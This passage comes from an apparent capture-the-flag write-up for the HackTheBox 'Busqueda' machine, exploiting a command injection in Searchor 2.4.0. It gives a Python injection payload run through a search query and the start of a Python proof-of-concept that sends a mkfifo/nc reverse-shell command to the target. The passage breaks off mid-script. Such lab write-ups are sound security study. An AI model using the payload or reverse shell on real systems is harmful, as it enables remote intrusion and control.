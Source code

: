 <img src="/assets/img/busqueda/Untitled 3.png" alt="Untitled 3.png" style="width:800px;">

Source: https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection.

# Exploitation

After playing with Burp Suite for a while, we finally achieved **remote code execution (RCE)**.

```
myquery+'),__import__('os').system('whoami')#
```

<img src="/assets/img/busqueda/Untitled 4.png" alt="Untitled 4.png" style="width:800px;">

For learning’s sake I created a Python PoC. I recommend you to create your own.

```python
import argparse
import requests
import sys

def send_revshell(target, lhost, lport):
    try:
        if not lhost:
            raise Exception("\n[!] You must provide a lhost to receive a reverse shell connection.")
        
        url = f'http://{target}/search'
        headers = {
            'Host':'searcher.htb',
            'Content-Type':'application/x-www-form-urlencoded'
        }
        command = f'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f'
        data = {
```